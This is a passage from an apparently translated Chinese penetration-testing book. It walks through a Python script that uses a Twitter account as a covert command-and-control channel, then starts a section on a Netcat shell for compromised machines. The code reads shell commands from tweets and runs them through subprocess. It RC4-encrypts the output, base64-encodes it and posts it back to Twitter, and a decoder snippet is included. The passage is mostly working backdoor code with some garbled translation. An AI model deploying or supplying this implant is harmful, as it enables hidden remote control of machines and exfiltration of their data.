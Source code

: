 我们设置了一个无限循环：

```py
while 1:
```

我们调用已设置帐户的用户时间表。重要的是，此应用程序对 Twitter 帐户具有读写权限。然后，我们获取最近一条推文的最后一条文本。我们需要将其编码为 UTF-8，因为通常存在常规编码无法处理的字符：

```py
user = t.statuses.user_timeline()
command = user[0]["text"].encode('utf-8')
```

然后，我们使用 oxt 最后一条 tweet 作为加密密钥。我们将其编码为`hex`，以避免出现空间与空间匹配的情况：

```py
key = user[1]["text"].encode('hex')
enc = ARC4.new(key)
```

我们使用`subprocess`函数执行该操作。我们使用预设的向上 XORing 加密对输出进行加密，并将其编码为 base64：

```py
response = subprocess.check_output(command.split())
enres = enc.encrypt(response).encode("base64")
```

我们将加密和编码的响应分成 140 个字符的块，以允许 Twitter 字符上限。对于每个区块，我们创建一个 Twitter 状态：

```py
for i in xrange(0, len(enres), 140):
  t.statuses.update(status=enres[i:i+140])
```

因为每一步都需要两条 tweet，所以我在每次命令检查之间留出了一个小时的间隔，但您自己很容易改变这一点：

```py
time.sleep(3600)
```

对于解码，导入`RC4`库，将您的 key tweet 设置为 key，将重新组装的 base64 作为响应：

```py
from Crypto.Cipher import ARC4
key = "".encode("hex")
response = ""
```

使用密钥设置新的`RC4`代码，解码 base64 中的数据，并使用密钥解密：

```py
enc = ARC4.new(key)
response = response.decode("base64")
print enc.decrypt(response)
```

# 创建一个简单的 Netcat 外壳

下面我们要创建的脚本利用原始套接字从网络中过滤数据。此 shell 的总体思想是通过 Netcat（或其他程序）会话在受损机器和您自己的机器之间创建连接，并以这种方式向机器发送命令。
